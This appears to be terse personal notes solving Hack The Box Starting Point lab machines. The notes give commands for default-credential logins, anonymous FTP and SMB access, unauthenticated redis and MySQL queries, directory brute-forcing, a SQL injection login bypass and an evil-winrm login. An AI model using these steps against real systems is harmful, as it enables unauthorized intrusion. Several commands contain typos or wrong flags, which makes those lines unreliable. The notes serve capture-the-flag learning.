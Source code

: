 # TIER 0

### Meow  
telnet as "root", blank password

### Fawn
ftp as anonymous, get flag.txt  

### Dancing  
smbclient -L {IP-address}  
smbclient \\\\{IP-address}\\WorkShares  
ls; cd ..; cd James.P; get flag.txt  

### Redeemer  
redis-cli -h {IP-address}
info  
keys *  
get Flag  

### Explosion
RDP as Administrator, no password  
xfreerdp /v:Administrator /cert:ignore /v:{IP-addess}  

### Preignition
gobuster -x php {IP-address}
http://{IP-address}/admini.php

# TIER 1
### Appoinment
SQLI on login page-> admin'#  

### Sequel
mysql -h {IP-address} -u root
SHOW databases;
USE htb; SHOW tables; SELECT * FROM config;

### Crocodile
ftp anonymous to get list of usernames/passwords
gobustoer -x php to find login.php
admin user goes to server page showing flag  

### Responder  
sudo get install evil-winrm  
evit-winrm -u Administrator -p badminton -i {IP-address}  

### Three  
### Ignition
### Bike
### Pennyworth


